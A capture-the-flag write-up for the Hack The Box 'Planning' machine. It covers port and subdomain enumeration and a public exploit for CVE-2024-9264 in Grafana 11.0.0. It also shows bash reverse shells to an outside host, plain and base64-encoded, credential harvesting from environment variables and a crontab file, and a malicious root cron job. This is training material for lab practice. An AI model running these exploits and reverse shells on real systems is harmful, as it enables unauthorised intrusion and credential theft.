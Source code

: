 ```yaml
---
name: Planning
difficulty: easy
os: linux
platform: htb
date: 2025/07/02
releasedDate: 2025-09-13
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.68 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This website redirects us to `http://planning.htb`, so it is necessary to add the domain to our `/etc/hosts` file:

```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

We will try to detect the web application framework using `whatweb`:

```bash
whatweb http://planning.htb
```

```
http://planning.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```

We will do a directory enumeration scan using `gobuster` to enumerate the web application:

```bash
gobuster dir -u http://planning.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

As nothing interesting was found in directory enumeration and web application content, we will proceed with subdomain enumeration using `ffuf`:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -fs 0
```

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 237ms]
```

We should add the subdomain `grafana.planning.htb` to our `/etc/hosts` file:

```bash
10.10.11.68 planning.htb grafana.planning.htb
```

## User Exploitation

We access grafana at `http://grafana.planning.htb` and we are greeted with a login page.
We can log in using credentials given in the description of the machine:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

We can check grafana version in `http://grafana.planning.htb/api/health`, we see that is running version `11.0.0`

We can use `https://github.com/nollium/CVE-2024-9264` to exploit a vulnerability in Grafana 11.0.0 that allows us to execute arbitrary code.
We clone the repository and run the exploit:

```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c <shell-cmd> http://grafana.planning.htb
```

We will encode base64 the following code to get a reverse shell:

```bash
echo "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1" | base64
```

Then we run the exploit with the encoded command:

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQ0NCAwPiYxCg | base64 -d | bash'  http://grafana.planning.htb
```

We are in a Docker container. We can check by running the following command:

```bash
hostname -I
```

```
172.17.0.2
```

We can get credentials on ENV variables:

```bash
env
```

```
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

We can use these credentials to login via ssh

```bash
ssh enzo@planning.htb
```

We can find the user flag in the home directory:

```bash
cat /home/enzo/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `enzo` has sudo privileges:

```bash
sudo -l
```

```
Sorry, user enzo may not run sudo on planning.
```

We run `linpeas` to check for privilege escalation vectors:

```bash
./linpeas.sh
```

Found /opt/crontabs/crontab.db: New Line Delimited JSON text data

```json
{
    "name": "Grafana backup",
    "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
    "schedule": "@daily",
    "stopped": false,
    "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
    "logging": "false",
    "mailing": {},
    "created": 1740774983276,
    "saved": false,
    "_id": "GTI22PpoJNtRKg0W"
}
```

Also found a service running on port 8000, which is not accesible from outside the machine. We do a port forwarding to access it:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

We can access the service at `http://localhost:8000` and we are greeted with a login page. We can log in using the credentials we found in the crontab:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

We can see a web interface that allows users to manage crontab jobs which will be runned by root. We can create a new job that will create a reverse shell for us. We can use the following command to create a new job:

```bash
bash -c "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1"
```

Once the job is created we can run it by clicking on the "Run" button. This will execute the command as root and give us a reverse shell.

We get access to the root reverse shell:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrated how to exploit a vulnerable Grafana instance to gain user access and then escalate privileges to root using a custom cron job. The process involved enumeration, exploiting a known vulnerability, and leveraging Docker container management to achieve the final goal of obtaining the root flag.
